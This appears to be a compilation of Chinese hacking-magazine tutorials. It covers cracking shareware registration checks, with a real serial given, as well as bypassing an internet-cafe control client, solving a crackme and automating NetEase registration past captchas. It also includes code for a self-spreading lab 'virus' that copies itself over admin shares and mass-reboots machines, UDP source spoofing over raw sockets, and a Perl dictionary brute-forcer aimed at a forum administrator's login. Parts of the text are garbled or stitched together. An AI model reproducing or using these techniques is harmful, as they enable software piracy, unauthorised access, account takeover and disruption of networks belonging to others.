想知道我们的猜测是否正确，只有实践一下了。按“Ctrl+F2”重新加载程序，再按“Alt+B”查看断点并将断点全部取消。然后来到 `0042AA98 je 0042AADE` 处右击指令并选择“汇编”，在弹出框将原来指令修改为 `jne short 0042AADE`。注意：不要勾选下面的“使用 NOP 填充”。点“汇编”完成修改（图7）。


图7

按“F9”运行程序，重复上面填写注册信息注册，结果惊喜地发现注册成功（图8），这也就证明了我们的猜测是正确的，剩下的就是将修改后的文件保存了。


图8

## 第五步、保存文件完成爆破

在代码窗口右击，选择“复制”→“全选”（图9）。当代码被全部选中后会变成蓝色，然后再右击，选择“复制到可执行文件”→“选择”（图10）。在弹出的窗口中右击，并选择“保存文件”（图11），将文件保存为 OAltoMP3cdripper.exe。现在运行 OAltoMP3cdripper.exe，随便填写注册码就可以注册成功了。

但是这样就是真正完成破解了吗？在软件的版权信息窗口中发现，该软件仍然是未注册版本（图12），结果不是很令人满意，接下来我们继续进行完美的破解之旅。

关掉 OllyICE，重新运行 AltoMP3cdripper.exe，使用用户名 TIT2195、注册码 4357271925 进行注册，结果注册成功。


图9


图13

再查看一下版权信息试试，也已经是注册版本了（图14）。拿张 CD 试试，只能抓取前 12 首的功能限制没有了。到此才算真正破解了这个软件的注册码。


图10


图14


图11


图12

## 方法二：完美阻击注册码

虽然上面的方法没有成功，但通过上面的分析我们也知道了软件的注册流程，找到了关键跳。狙击注册码的方法就是在关键跳处下断点，在真正注册码和我们随便输入的假注册码比较时观察真假。方法很简单：首先使用 OllyICE 加载 AltoMP3cdripper.exe，来到关键跳 `0042AA9B je short 0042AADE` 处，选中该行按“F2”下断点。然后按 F9 运行程序，填写注册码注册，程序会被断在关键跳处。在寄存器窗口看到我们填写的假注册码，同时会发现内存窗口中也出现了一个数字串，记录这个数字串 4357271925（图13）。

## 方法三：巧妙查看内存发现真码

我们都知道对于“明码比较”注册的软件来说，破解注册码还是有一定技巧的。如何知道一个软件的注册方法是不是“明码比较”呢？试试就知道了，实践是检验真理的唯一标准嘛。方法也很简单：当弹出注册失败信息框时，用 WinHex 查看内存，搜索我们的假注册码。一般来说，真注册码会出现在附近。运行 AltoMP3cdripper.exe，使用用户名 TIT2195、注册码 19841017 进行注册。当弹出“抱歉，注册码错误”的窗口时打开 WinHex，选择“Open RAM”找到程序进程 AltoMP3cdripper（图15）。


图15

选择主要内存“Primary Memory”，点“OK”。在弹出的窗口中选择搜索“Search”→“Find Text”（图16），会弹出一个查找对话框，在查找对话框中填上假注册码 19841017，点“OK”进行查找（图17）。

# 神秘园

在 001984F0 处找到了假注册码，在它附近仔细查找，如果没有，按“F3”查找下一次继续查找，直至搜索完整个内存。经过查找，在 00188C30 处发现一串数字，通过上面知道它就是真正注册码了……

总结：本文主要想说明软件破解的方法是多种多样的，并不是单一固定的。

# 菜鸟渊雀一次破解记（续）

这天去网吧上网，网吧客户端使用的是 WinXP 系统。发现任务栏异常后，打开 CMD，执行 `Tasklist.exe` 查 PID，再用 `Tlist.exe PID` 查看对应路径，定位到 `C:\Program Files\GodenSoft\NetRG\WinNT\Client\`，其中有 `NetRGClt.exe`、`NetRGSet.exe` 和 `UnInt.exe`。目标转向 `NetRGSet.exe`，开始逆向分析。

```asm
00401179  8106 A8000000  ADD [ESI],0A8
0040117F  56             PUSH ESI
00401180  68EF030000     PUSH 000003EF
00401185  57             PUSH EDI
00401186  E8 12000000    CALL ...
0040118B  5F             POP EDI
0040118C  5E             POP ESI
0040118D  C2 0400        RETN 4
```

在这段代码上会看到错误密码存放在 ECX 和 EDX 中，但 EDX 中去掉了第一位。比如输入 12345678，则 ECX 中为 12345678，而 EDX 中为 2345678。继续跟踪可到达比较错误的代码处。

```asm
0040138E  6A 00          PUSH 0
00401390  6A 08          PUSH 8
00401392  68 C5000000    PUSH 000000C5 ; Msg
00401397  50             PUSH EAX
00401398  FF15 A4424000  CALL [USER32.SendMessageA]
```

我们随便输入一个密码，回到 OllyDbg，按 F8 单步跟踪，逐步观察流程，不久后看到关键调用代码。

```asm
00401271  8B4424 2C      MOV EAX,DWORD PTR SS:[ESP+2C]
00401275  8B4C24 0C      MOV ECX,DWORD PTR SS:[ESP+0C]
00401279  6A 10          PUSH 10
0040127B  50             PUSH EAX
0040127C  51             PUSH ECX
0040127D  8BCE           MOV ECX,ESI
0040127F  E8 2A1F0000    CALL ...
```

观察这个 CALL 后发现目标地址比预期更小，说明是向上跳转。重走流程后，定位到一个更关键的位置。

```asm
004011EA  8D5424 0C      LEA EDX,DWORD PTR SS:[ESP+C]
```

```asm
0040121F 33C0        XOR EAX,EAX
00401221 EB05        JMP SHORT 00401228
00401223 1BC0        SBB EAX,EAX
00401225 83D8FF      SBB EAX,-1
00401228 85C0        TEST EAX,EAX
0040122A 750C        JNZ SHORT 00401238

不相等就跳！
```

现在，暴力破解就行了！我试着将其反向修改了一下，修改了很多种，如“R EIP 虚拟地址”，继续向前 March，走了一会儿，竟发现我进入到了主程序中，输入 PSW 框变成了主程序 SET 框（图3），太兴奋了，立马存盘，趁热打铁，用 KeyMaker 做了一个文件补丁，至此，算是完工了。

我又用 Windows 自带的 DEBUG 找到了那个关键跳，在使用 DEBUG 前先将后缀名 `.exe` 改成 `.txt`，因为 DEBUG 会将后缀名 `.exe` 的文件重定义，因此无法很好地分析一个 `.exe` 文件。它也不能用来一个一个分析，如要使之运行，用户要重定义才行；如只想更改其中的代码就要更改后缀为 `.txt` 才可以，因为 EXE 的写盘很特殊。我找到的地址为 1305，不过 NetRG 的更新太快了，也有可能不太对，望大家自己去寻找其中的快乐吧！

再然后我又从那个 `UNINT.exe` 进行了反汇编，在字符串参考列表中找到 “Error”，双击一下，来到了：

```asm
Possible StringData Ref from Data Obj -> "Error"
00403AC5 68C9340000  push 00409C9C
00403ACA 52          push edx
00403ACB 8BCE        mov ecx,esi
...
00403998 E836280000  call 004061D6
004039A0 8D8EA8000000 lea ecx,[...]
004039A6 C644241002  mov [esp+10],02
```

```asm
004039AB E826280000  call 004061D6
004039B0 8D4E68      lea ecx,[esi+68]
004039B3 C644241001  mov [esp+10],01
...
004039E8 C3          ret
```

好了，现在去找关键跳吧！

```asm
00403A98 FF15E0724000   call dword ptr [004072E0]
00403A9E 83C408         add esp,00000008
00403AA1 85C0           test eax,eax
00403AA3 7455           je 00403AFA
00403AA5 8D4C241C       lea ecx,[esp+1C]

（这就是那长长的跳啊）
```

最后，我们来干掉它，如图4所示。

本文的目的并不是要叫大家去破解别人辛苦做好的软件，而是希望可以从过程中掌握别人编程的思想精华，从而可以让自己的软件做得更好！（文中涉及到的工具：Tlist.exe、PEID、OllyDbg，光盘中已收录）

# 简单 crackme 简单搞

Spirit

这天，在家中闲来无事，无意中从自己的电脑里翻出了一个程序 crackme，好像还是老外写的呢！我先使用 PEID 载入程序，居然没有加壳（图1）。既然没有壳，那么就先用 W32DASM 或 OLLYDBG 载入程序，然后就是查找敏感信息。

具体步骤是“参考”->“字符串数据参考”；通常如果数据没被加密的话，里面会有什么“成功、失败”，不一会儿，我找到的内容如图2所示。“Good job, now keygen it.” 应该是成功时返回的消息；“Sorry, please try again.” 则是失败时返回的消息。

# 神秘园

我双击表示成功的消息，来到如下的代码处（由于 W32DASM 截图不好看，因此此处使用 OLLYDBG）：

```asm
004016A8  lea esi,dword ptr ds:[40324D]
004016AE  lea edi,dword ptr ds:[403258]
004016B4  xor ebx,ebx
004016B6  cmp ebx,dword ptr ds:[403463]
004016BC  je short 004016CD
004016BE  movsx eax,byte ptr ds:[edi+ebx]
004016C2  movsx ecx,byte ptr ds:[esi+ebx]
004016C6  cmp eax,ecx
004016C8  jnz short 004016E2
004016CA  inc ebx
004016CB  jmp short 004016B6
...（后续为消息框调用）
```

看到上边的三个跳转点了吧，通常情况下问题都是出在跳转点上，双击失败的消息看看，来到如下代码处：

```asm
004016D9  push 0
004016DB  call USER32.MessageBoxA
004016E0  jmp short 004016F5
004016E2  push 0
004016E4  push 0040300A
004016E9  push 00403067 ; "Sorry, please try again"
004016EE  push 0
```

看到没有，我们发现跳转点了，004016BC、004016C8 处也有可能是疑点。004016CB 处可能是回跳，就是跳回到 004016B6。由于只是静态分析所以没那么准确。先暴破一下 004016BC，使用 OLLYDBG 改写代码 `je` 为 `jne`，然后复制可执行文件，成功后继续跟踪算法。

我们已经成功破解该软件了，还是来看看算法吧！继续跟踪，下断点 `BPX GetWindowTextA`，然后会断下三个地方，分别是 0040136A、004015F1、0040160D，跟踪如下：

```asm
004015F8  ... ; 检查是否输入用户名
004015FE  MOV DWORD PTR DS:[403467],EAX
00401603  PUSH 0B
```

```asm
00401605  PUSH "Splish"
0040160A  PUSH DWORD PTR SS:[EBP+8]
0040160D  CALL USER32.GetWindowTextA
00401612  TEST EAX,EAX
00401614  JE SHORT 0040167E
```

找到了算法的开始，下面的就要耐心分析了。

```asm
00401616  MOV DWORD PTR DS:[403463],EAX
0040161B  XOR ECX,ECX
0040161D  XOR EBX,EBX
0040161F  XOR EDX,EDX
00401621  LEA ESI,[403236]
00401627  LEA EDI,[403258]
0040162D  MOV ECX,0A
00401632  MOVSX EAX,BYTE PTR DS:[ESI+EBX]
00401636  CDQ
00401637  IDIV ECX
00401639  XOR EDX,EBX
0040163B  ADD EDX,2
0040163E  CMP EDX,0A
00401641  JL SHORT 00401646
00401643  SUB DL,0A
00401646  MOV BYTE PTR DS:[EDI+EBX],DL
...（后续为循环、比较与回跳逻辑）
004016A8  LEA ESI,[40324D]
004016AE  LEA EDI,[403258]
004016B4  XOR EBX,EBX
004016B6  CMP EBX,DWORD PTR DS:[403463]
004016BC  JE SHORT 004016CD
```

至于文章就结束了，软件破解了，算法我们也已经知道了。希望本文可以让广大的菜鸟破解爱好者学到点什么！（文中涉及工具 PEID、W32DASM、OLLYDBG）

## VB编程手工破解网易验证码

如今，很多网站的网页登录都存在验证码确认……这篇文章还得从我注册网易邮箱说起。我在注册邮箱的时候，那些烦人的验证码给我留下了深刻的“印象”。当时我就在想，对于这些烦人的验证码能不能通过编程读取呢？

这个程序运行的时候完全都是 auto 的，无需人工干预，而且效率也非常棒……我们只要在 VB6 工程里加一个 “WebBrowser” 控件，就可以随意读取网页上的任何东西。

然后在窗体上绘出它的位置以及大小，如图3。那个带编辑点的控件就是 “WebBrowser”。载入此控件后还不用再编程什么的，很方便。先来讲讲图3里的相关控件关系，在图3中最顶的 “URL” 文本输入框就是注册地址获取图片验证码的 URL。

下面那个 “POST:” 文本输入框就是我们最后提交数据的目的页面……代码为：`WebBrowser1.Navigate Trim(Text1.Text)`，这里的 `Text1.Text` 就是那个得到验证码的 URL。

```http
GET /register/RegSuccess.jsp?username=... HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
Referer: http://reg4.163.com/register/Register.jsp
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: reg4.163.com
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: Province=021; City=021; NETEASE_SSN=...; NTES_SESS=...; JSESSIONID=...
```

```text
...NETEASE_SSN=anzike; NETEASE_ADV=11&18; MAIL163_SSN=anzike;
NTES_SESS=...; JSESSIONID=...
```

它就是所谓的 ID 码，这个会话的 ID 码我们把 Post 回去后一定要提交，否则即使返回了正确的图片验证码也等于白搭。

# 黑客编程

那么在 VB6 中怎样才能够得到这个会话 ID 呢？其实，在 “WebBrowser” 的控件里有一个类方法可以调用方法过程，它的使用非常方便。只要在窗体的“验证码查看”按钮里加入以下两行代码就搞定。

```vb
Dim doc As IHTMLDocument2  '通过定义Doc对象数据类型
Set doc = WebBrowser1.Document '通过Set来建立Doc对象
```

如果要读取 “WebBrowser” 已打开网页的会话 ID，就可以通过以下的代码取得：`MsgBox "会话的ID为:" & doc.cookie, vbOKOnly, "读取会话ID"`。此时，我们可以说是长征路程走完了一半。对于剩下的路程如何走请大家继续往下看。前面的工作完成之后，我们现在的问题就是如何把得到的那些数据 POST 到我们想要的目的地址。通常大多数人在 POST 数据的时候，大都采用 WinSock 这种方法来建立 TCP/IP 的 HTTP 连接，这样做比较灵活。但是，有一个缺点就是必须重新进行 HTTP 报文的封包。这样一来就比较麻烦，不建议采用，这里我们用的是 “MSXML2.XMLHTTP”。相信这个大家肯定都不陌生，装过数据处理的软件或 Office 软件的朋友应该都熟悉，相比起 POST 来说，它使用起来就要方便得多了，只需要在 VB 里用 `CreateObject` 就可以了。

说起封包 HTTP 报文，就离不开 IE。我稍微说一下 IE 是怎样将数据 POST 到页面的。

```http
POST /register/Register2.jsp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, ...
Referer: http://re84.163.com/register/Register.jsp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: re84.163.com
Content-Length: 340
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: province=201; city=0; ...

username=...&password=...&question=...&answer=...&time=...&reg_type=...&fullname=...&sex=...&year=...&month=...&day=...&idType=...&idCard=...&radomPass=...&radomPassID=...&email=...&Submit3=...
```

上面这段代码就是把通过 WSE 抓取的 POST 数据报文。从上面这段代码，我们可以看见 Cookie 以及 Post 出去的数据，非常详细，特别是 Cookie 的会话这块。理清了 IE 的工作过程之后，下面就该我们自己来做了。下面的这段代码比较完整，它是“验证码查看”按钮里的代码。

```vb
Private Sub Command2_Click()
...
WebBrowser1.Navigate Trim(Text1.Text)
End Sub

Private Sub Command2_Click()
Dim doc As IHTMLDocument2
Set doc = WebBrowser1.Document

Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "POST", Trim(Text2.Text), False
objXMLHTTP.setRequestHeader "Referer", "http://re84.163.com/register/Register.jsp"
objXMLHTTP.setRequestHeader "accept-language", "zh-cn"
objXMLHTTP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
objXMLHTTP.setRequestHeader "cache-control", "no-cache"
On Error Resume Next
objXMLHTTP.setRequestHeader "Cookie", doc.cookie

g_post = "username=" & Text3.Text & "&password=" & Text4.Text & ... & "&Submit3=" & Text20.Text
objXMLHTTP.send(g_post)

If InStr(objXMLHTTP.responseText, "name=certtype") > 0 Then
    MsgBox "OH! YES", vbOKOnly + 64, "你很幸运!!!"
Else
    MsgBox "运气有些差哦!!!", vbOKOnly + 16, Form1.Caption
End If

Set objXMLHTTP = Nothing
Text5.Text = ""
If Err Then
    MsgBox "出错了,哥们!!!", vbOKOnly + 16, Form1.Caption
End If
End Sub
```

```vb
Private Sub Command4_Click()
...
End Sub

Private Sub Command1_Click()
```

就这样，一个读取图片验证码的网络程序基本完成了。其实，根据这种思路我们可以搞定大量的网站。前段时间工行就在验证码上出了问题，而且还很严重呢。因此，对于验证码这个问题可是不容忽视了。希望本文能够带给大家一些思路上的启发。

# 一个“样板病毒”的诞生与实现

## 一、起因

这机房的环境真是越来越差了，一群群“反恐精英”“魔兽达人”把这“学习”的地方弄得人声鼎沸，更可气的是有些“网游悍军”们俨然把电脑桌当成了他们的“第二战场”，然后把垃圾随手丢在桌上，陪伴着孤独的键鼠。我们“玩黑”的需要的是宁静，这还让我们怎么学习，怎么搞编程啊。于是，不堪重负的我终于咬咬牙，在新学期里添置了“本本”。感慨脱离苦海之余，也为了练练技术，我觉得该做点什么了……

尝试着做一个标称“样板病毒”练习一下，是一个不错的选择。

## 二、设计

为了做到知己知彼，我先仔细地调查了机房的基本情况。从好消息说起吧。机房里安装的是 Windows 2000 系统，登录默认为管理员账户（空密码的 Administrator 账户），这让问题就变得出奇地简单了。在域里，只要你在任一台机器上拥有了管理员权限（或管理员账户），就同时在所有的机器上拥有了同等的权限（当然不包括 Active Directory 服务器，哈哈）。这一点就为我们“发挥”提供了无限空间。

但坏消息是每台机器都安装了还原卡，重启后只有 E 盘不会被还原。这样就无法让病毒自动启动了，除非你愿意逐台机器开一遍，这任务也太艰巨了吧。根据这些情报，我们做出以下设计：病毒会在每天的一个确定时刻发作，让机房内的所有机器同时重启。不要指望这个病毒会像 CIH 那么疯狂，毕竟这是学校，“恐吓”一下就可以了。既然我们有了所有机器的管理员权限，这便不再是难事。接下来只要能够自动繁殖并诱使他人运行就可以了。

## 三、实现

既然是做个“样板病毒”，一切就要按部就班地来。下面大家就按照病毒专家 Cohen 博士对计算机病毒的特征定义，一步一步跟我做吧。

## 1. 破坏性

这部分是程序的主体，也是相对最复杂的。先介绍一下我们的主角——实现关机的函数。对于关闭（重启）计算机，以前的文章多使用 `ExitWindowsEx()` 这个函数，但它有一个很大的弱点：无法使 2000 重启，更要命的是它无法远程关闭计算机。但对于我们，由于不能使病毒自动运行，更不能保证留驻，所以必须实现远程关机，才能达到整个机房同时重启的效果。于是我找到了 `InitiateSystemShutdown()` 这个 API（其实 XP 里那个大名鼎鼎的 `shutdown.exe` 也是用这个函数实现的），其声明如下：

```c
BOOL InitiateSystemShutdown(
  LPCTSTR lpMachineName,
  LPCTSTR lpMessage,
  DWORD dwTimeout,
  BOOL bForceAppsClosed,
  BOOL bRebootAfterShutdown
);
```

在调用这个函数之前，还要先取得关机权限，无论是本地还是远程，这也是 2000 区别于 98 的一个特点。

```c
TOKEN_PRIVILEGES tkp;
HANDLE hToken;
OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);
LookupPrivilegeValue(NULL, SE_REMOTE_SHUTDOWN_NAME, &tkp.Privileges[0].Luid);
tkp.PrivilegeCount = 1;
tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);
```

要关掉所有机器，当然也可以通过遍历“网上邻居”机器名枚举变量的方法，但实现远程的速度不够快（试着打开“网上邻居 -> 整个网络”，你就可以对这速度做个体会了）。所以我采取了手动从 IP 地址取计算机名的方式，这样也更便于对目标进行操作。这部分主要流程是这样的：取得本机 IP 并从中算出机位号。由于所有机器 IP 前三段都相同，而最后一位就是机位号，我们就等于得到了所有机器的 IP。之后将 IP 转换为机器名就可以关机了。

下面是具体步骤。第一步，先取得本地计算机名，转换为 IP 地址并算出机位号。

```c
char cLocalHost[10];
char *pcLocalIp;
AfxSocketInit(NULL);
gethostname(cLocalHost, sizeof(cLocalHost));
struct hostent FAR* pHostEnt;
pHostEnt = gethostbyname(cLocalHost);
int iTempGetLocalIp = 0;
LPSTR lpAddr;
while (lpAddr) {
  lpAddr = (pHostEnt->h_addr_list)[iTempGetLocalIp];
  iTempGetLocalIp++;
  struct in_addr inAddr;
  memmove(&inAddr, lpAddr, 4);
  pcLocalIp = inet_ntoa(inAddr);
}
```

其中用到了 `gethostname()`、`gethostbyname()` 两个 Windows Sockets 函数，都是很简单的，在 MSDN 里查查就知道怎么用了。但记得要用 `AfxSocketInit()` 初始化。至于最后的 `while` 循环，是把取到的 IP（十六进制）转换为标准字符串。

```c
int ip2int(char *cIp){
  int iLastDot, iLenIp = 0, ipInt = 0;
  while (cIp[iLenIp] != NULL) iLenIp++;
  iLastDot = iLenIp;
  while (cIp[iLastDot] != '.') iLastDot--;
  iLenLocalIp = (iLastDot + 1);
  for (i = iLastDot + 1; i <= iLenIp; i++){
    ipInt *= 10;
    ipInt += cIp[i] - '0';
  }
  return ipInt;
}
```

第二步：算出机房内任意机器的 IP，进而取得机器名。将机位号转换为 IP 与前面的过程差不多，这里省略。从 IP 取得计算机名：

```cpp
LPTSTR pIp;
CString sHostS;
uipS = inet_addr(pIp);
struct hostent FAR *host = gethostbyaddr((char *)&uipS, 4, AF_INET);
if (host != NULL)
    sHostS = host->h_name;
```

但这样取得的机器名类型是 `LPCTSTR`（即 `CString` 字符串常量），而 `InitiateSystemShutdown()` 中参数要求是 `LPTSTR`（即 `char[]`），所以要转换一下：

```cpp
LPTSTR cHostS = new TCHAR[sHostS.GetLength() + 1];
tcscpy(cHostS, sHostS);
```

第三步：要开始“沉沦”了。为了防止出现意外（比如某人上机时安装了防火墙），真正结束该机器的关机请求并保证执行目的，我们用了多个线程来关机，且不需要什么交互，建立简单的工作者线程就够了。`CWinThread *ThreadShut1 = AfxBeginThread(TShut, NULL);` ……重复这句建立 N 个线程，把它们放在 `OnTimer()` 函数里，到一定时间就执行。

## 2. 传染性

《黑客 X 档案》去年曾介绍过病毒传播的几大途径。既然重启都可以，拷贝几个文件自然不算什么。用 `NetShareAdd()` 将被传染机器的硬盘设为共享并拷贝文件，再结合 `CopyFile(cExeName, sCopyPath, TRUE)` 等操作即可。路径可构造为 `\\机器名\d$\新文件名`，最后把逻辑放进 `OnTimer()` 中即可自动繁殖。

## 3. 隐蔽性

对于 NT/2000，真正意义上的进程隐藏很难。攻击点在于 2000 下对 `TCHAR` 进程名支持不足，可让中文名在进程列表中显示为乱码，从而提高隐蔽性。再辅以文件名中英混排、小技巧伪装等，在学校机房等环境中更不易被发现。

## 4. 潜伏性、可触发性

“仁者见仁，智者见智”，在 `OnTimer()` 里实现即可。最后将各模块组合起来并加上迷惑性图标，就可形成“样板病毒”。作者并强调仅用于研究与防护思路，讨论了在局域网策略配置不严时的可利用性。

## 四、总结

全局因安全与发布限制，部分源码在不同系统上会有兼容差异。文章转入“数据包欺骗”话题，指出其在特定环境（尤其 UDP 通讯场景）中的效果，并说明 Windows 2000 到 XP SP2 期间 Raw Socket 策略变化带来的限制。

> the ability to send traffic over raw sockets has been restricted in two ways:
>
> - TCP data cannot be sent over raw sockets;
> - UDP datagrams with invalid source addresses cannot be sent over raw sockets. The IP source address for any outgoing UDP datagram must exist on a network interface or the datagram is dropped...

- TCP 数据不能通过原始套接字发送。
- UDP 数据报源地址不合法时不能通过原始套接字发送，该数据报会被丢弃。

数据包欺骗在特定环境下会达到令人吃惊的效果，尤其在采用 UDP 协议通信的程序中。相比木马通信，UDP 方式在某些条件下隐蔽性更好；但随着系统安全策略升级，原始套接字能力被显著收紧。

# 黑客编程

因为本文的数据包欺骗以 UDP 为例（以下不特别指出则均为 UDP 协议），故我们关心上述的第二点限制。其实弄明白了 UDP 数据包，其它的数据包也一样简单了，无非就是按照报文格式来填充数据包。从微软的资料来看，使用原始套接字的数据包在发送前要通过“安全检查”，如果数据包源地址不合法，我们费了九牛二虎之力精心构造的数据包就被 Windows 丢弃了。……（左栏上半部分正文）

Windows 2000 没有该服务，还不是一样提供网络地址转换、寻址、名称解析，只有这最后一个最可疑了：入侵保护服务。事实上的确如此，该服务能对我们发送出去的数据包进行合法性检查。……（左栏中部正文）

关于原始套接字更为详尽的资料请大家查阅相关书籍。这里我们关心的是一个数据包欺骗程序。实现数据包欺骗的关键是自己构造数据包，也就是自己填充数据包。……（左栏下部过渡正文）

```c
typedef struct ip_hdr {
    unsigned char  ip_verlen;
    unsigned char  ip_tos;
    unsigned short ip_totallength;
    unsigned short ip_id;
    unsigned short ip_offset;
    unsigned char  ip_ttl;
    unsigned char  ip_protocol;
    unsigned short ip_checksum;
    unsigned int   ip_srcaddr;
    unsigned int   ip_destaddr;
} IP_HDR, *PIP_HDR, FAR *LPIP_HDR;
```

注意上面的 version 和 length 定义为一个 `char`，因为 version 和 length 都只有 4 bit，不方便分别描述。接着是不变描述 UDP 报文格式了，如图 1。

| 16位源端口号 | 16位目的端口号 |
|---|---|
| 16位UDP长度 | 16位UDP校验和 |
| 数据 |  |

图1

去掉上面的数据部分就是 UDP 头的格式。用 C 语言的结构体描述如下：

```c
typedef struct udp_hdr {
    unsigned short src_portno;
    unsigned short dst_portno;
    unsigned short udp_length;
    unsigned short udp_checksum;
} UDP_HDR, *PUDP_HDR, FAR *LPUDP_HDR;
```

为了验证 UDP 数据报是否传到正确的目的端，我们还需要 UDP 伪头。接下来我们先做几个准备步骤，包括检测 socket 版本、系统要求等。下面为简化描述，出错部分以“// 错误处理”代替。

- 第一步：检测 socket 版本

```c
WSAStartup(MAKEWORD(2, 2), &wsaData);
// 错误处理
```

- 第二步：建立原始套接字，关键是设置 `SOCK_RAW` 参数

```c
s = WSASocket(AF_INET, SOCK_RAW, IPPROTO_UDP, NULL, 0, 0);
if (s == INVALID_SOCKET) {
    // 错误处理
}
```

- 第三步：调用 `setsockopt` 设置 `IP_HDRINCL` 选项

```c
opt = TRUE;
setsockopt(s, IPPROTO_IP, IP_HDRINCL, (char*)&opt, sizeof(opt));
if (ret == SOCKET_ERROR) {
    // 错误处理
}
```

- 第四步：填充 IP 头

```c
TotalSize = sizeof(IPHdr) + sizeof(UdpHdr) + strlen(strMessage);
ipVersion = 4;
ipSize = sizeof(IPHdr) / sizeof(unsigned long);
ipHdr.ip_verlen = (ipVersion << 4) | ipSize;
ipHdr.ip_tos = 0;
ipHdr.ip_totallength = htons(TotalSize);
ipHdr.ip_id = 0;
ipHdr.ip_offset = 0;
ipHdr.ip_ttl = 128;
ipHdr.ip_protocol = 0x11;
ipHdr.ip_checksum = 0;
ipHdr.ip_srcaddr = dwFromIP;
ipHdr.ip_destaddr = dwToIP;
```

- 第五步：填充 UDP 头

```c
udpHdr.src_portno = htons(iFromPort);
udpHdr.dst_portno = htons(iToPort);
udpHdr.udp_length = htons(UdpSize);
udpHdr.udp_checksum = 0;
```

- 第六步：构造 UDP 伪头并准备计算校验和。
- 第七步：计算校验和（可直接调用现成函数）。

```c
USHORT checksum(USHORT* buffer, int size) {
    unsigned long cksum = 0;
    while (size > 1) {
        cksum += *buffer++;
        size -= sizeof(USHORT);
    }
    cksum += *(USHORT*)buffer;
    if (size) {
        cksum += *(UCHAR*)buffer;
    }
    cksum = (cksum >> 16) + (cksum & 0xffff);
    cksum += (cksum >> 16);
    return (USHORT)(~cksum);
}
```

第八步：拷贝整个数据包（包括包头和数据部分）到指定的 buffer 中，调用 `sendto` 发送出去，就完成了整个过程。

相关的《Network Programming for Microsoft Windows》的代码已经收录于当期光盘中。如果编译出现类似下面的错误：`error LNK2001: unresolved external symbol __imp__inet_addr@4`，请做如下设置：`Project -> Settings -> Link` 选项中加入 `ws2_32.lib`，如图 2。

据多台机器测试（8 台），其中 7 台测试成功，1 台失败；操作系统都为 Windows XP SP2。最后推荐一本 Windows 网络编程书《Network Programming for Microsoft Windows》。

## 给管理员发冰mail

闲着无聊，到本地区的一个社区上转了转，论坛上乱得一塌糊涂，甚至有个帖子还侵犯了一个朋友的版权……决定给管理员泼盆冷水清醒清醒，如图 1。

安全第一，先开个 HTTP 代理，打开社区的登录页面，看到地址类似 `http://www.****bbs.com/login.cgi`，打开页面源码，找到登录的关键几句：

```html
<form action="login.cgi" method="post">
<input type="hidden" name="menu" value="login">
<input type="hidden" name="id" value="">
用户名<input size="25" name="username" ...>
密码<input type="password" size="25" name="userpsd" ...>
</form>
```

分析上边的代码，得知提交登录信息的 URL 应该是：`http://www.****bbs.com/login.cgi?username=ID&userpsd=PWD&menu=login&id=`。

扫描后发现了 FTP 弱口令（anonymous），回到 CGI 上继续分析，发现上传头像链接可由 `` 控制，关键是其中的图片链接参数。

提交后程序没有提示，也没有修改图片。换个角度看，如果管理员过于自信不改默认口令，先想到的是下载字典暴力尝试，进一步可以自己写脚本进行密码探测。

我习惯先查看用户信息，因为一般用户名和密码常有关联。尝试构造不同 URL 参数后，发现 `.` 和 `./` 被过滤掉；继续提交带编码字符的参数，出现“用户没有被注册”提示（如图 2）。

- 对各种过滤规则进行测试。
- 找到可绕过的参数提交方式。
- 根据返回结果构造用户名/密码验证逻辑。
- 将结果定向给用户，便于批量操作。

上边的第三步要绕个圈子，其他的几步用程序就能简单地实现了。首先从第三步开始，我不了解别的程序是怎么进行判断的，估计是先取得成功登录和错误登录两个页面的代码，然后对比它们的不同……现在，用 telnet 去取得我们想要的信息，如图4。


图4


图5则是非成功登录后返回的信息。


图5


以上是成功登录后返回的信息，返回信息的第七行“fe7”和“18d”不同，我们就从这里下手。现在到社区的管理员队里上看看管理员的 ID，其中一个管理员的 ID 是“秘密”。

# 思路（步骤）

取得 IP → 打开字典，字典里每一行一个密码 → socket() → connect() → 向目标主机 WEB 端口提交数据，用变量替代字典密码并保存返回信息；将返回信息与前述成功/失败信息进行对比，判断是否登录成功；若当前密码错误则继续循环，直到正确或字典结束。

```perl
#!/usr/bin/perl
############################
## Password Cracker
## Author: rabbit
## E-mail: yuloushalang@yahoo.com.cn
## Date: 2005/11/18
############################
use Socket;
my $ARGC=@ARGV;
if($ARGC!=1){print "\nPassword Cracker Tool By Rabbit\nUsage:$0 TargetIP\n"; exit;}
my $host=shift;
print "\nSending...";
open(FH,"<dic.dic");
while(<FH>){
  chomp;
  my $pwd=$_;
  my $req="GET http://www.***bbs.com/login.cgi?username=asdfasdf&userpsd=$pwd&menu=login&id= HTTP/1.1\nHost: IIS-Server\n\n";
  my @res=sendraw($req);
  if($res[6]=~/fe7/){
    print "\npwd:$pwd error";
  }else{
    print "\npwd:$pwd passed";
    close(FH);
    exit;
  }
}
close(FH);
```

# 黑客编程

```perl
sub sendraw {
  my ($req2) = @_;
  my $target = ...;
  $target = inet_aton($host) or die ...;
  socket(Handle, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
  if(connect(Handle, pack('SnA4x8', 2, 80, $target))) {
    select(Handle);
    print $req2;
    my @res2 = <Handle>;
    select(STDOUT);
    close(Handle);
    return @res2;
  } else {
    die("No Can connect to host:80")
  }
}
```

# 演示

dic.dic 内容如下：

- asdf
- asdfasdf
- asdfa

运行这个脚本，程序探测到正确密码 asdfasdf 后退出，如图6。


要根据实际情况更改提交的信息和判断依据以及 WEB 端口，挂个字典，就可以慢慢等密码出来了，然而更多时候是取决于你的运气。

# 总结

